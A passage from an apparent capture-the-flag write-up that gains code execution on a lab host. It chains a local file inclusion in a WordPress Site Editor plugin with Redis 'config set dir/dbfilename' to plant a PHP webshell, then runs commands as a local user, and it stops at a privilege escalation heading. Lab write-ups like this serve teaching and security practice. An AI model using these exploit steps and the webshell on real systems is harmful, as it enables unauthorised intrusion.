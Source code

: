 The file is successfully written to the system, but when I try to execute commands, we see that it doesn't interpret the PHP code, and there's an explanation for this.

```bash
❯ curl -s -X GET 'http://192.168.166.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/dev/shm/cmd.php?c=id'
{"success":false,"message":"Error: didn't load shortcodes pattern file"}
```
{: .nolineno }

After some investigation, I discovered that in the Redis service configuration (`/etc/systemd/redis`), the `ReadWriteDirectories` parameter is used to specify the paths where the **redis** user is allowed to execute and write. This potentially explains why we can't execute commands using a different path.

```bash
❯ ./lfi.sh /etc/systemd/system/redis.service
...
ProtectSystem=true
ReadWriteDirectories=-/etc/redis
ReadWriteDirectories=-/opt/redis-files
...
```
{: .nolineno }

With this information, we're going to write the webshell to `/opt/redis-files` and check if we can execute commands.

```bash
192.168.166.166:6379> config set dir /opt/redis-files
OK
192.168.166.166:6379> cofig set dbfilename cmd.php
(error) ERR unknown command `cofig`, with args beginning with: `set`, `dbfilename`, `cmd.php`, 
192.168.166.166:6379> config set dbfilename cmd.php
OK
192.168.166.166:6379> set test '<?php system($_GET["c"]); ?>'
OK
192.168.166.166:6379> save
OK
192.168.166.166:6379> 
```
{: .nolineno }

We paste this URL into the browser and see that we are executing commands as **alice**

`http://192.168.166.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/opt/redis-files/cmd.php&c=id`

![img](/assets/img/post/readys/6.png)
## Privilege Escalation
